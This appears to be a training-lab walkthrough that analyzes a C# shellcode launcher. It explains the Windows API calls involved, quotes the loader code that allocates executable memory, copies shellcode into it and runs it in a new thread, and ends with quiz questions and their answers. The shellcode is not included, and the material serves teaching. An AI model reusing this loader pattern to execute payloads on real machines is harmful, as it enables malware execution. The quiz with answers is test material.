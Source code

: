```csharp
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

```

Below is an explanation of each API call and its respective use.

| **API Call** | **Explanation** |
| --- | --- |
| VirtualAlloc | Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. |
| WaitForSingleObject | Waits until the specified object is in the signaled state or the time-out interval elapses |
| CreateThread | Creates a thread to execute within the virtual address space of the calling process |

We will now analyze how the shellcode is written to and executed from memory.

```csharp
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;

```

Let’s understand the objective and procedure of shellcode execution, then assign their respective API call from the above snippet.

Using the [Windows API documentation](https://docs.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) and the context of the above snippet, begin analyzing the shellcode launcher, using questions 5 - 8 as a guide to  work through the sample.

### Q&A

1. What Win32 API call is used to allocate memory for the size of the shellcode in the shellcode launcher sample?
    1. *VirtualAlloc*
2. What native method is used to write shellcode to an allocated section of memory in the shellcode launcher sample?
    1. *Marshal.copy*
3. What Win32 API call is used to create a new execution thread in the shellcode launcher sample?
    1. *CreateThread*
4. What Win32 API call is used to wait for the thread to exit in the shellcode launcher sample?
    1. *WaitForSingleObject*
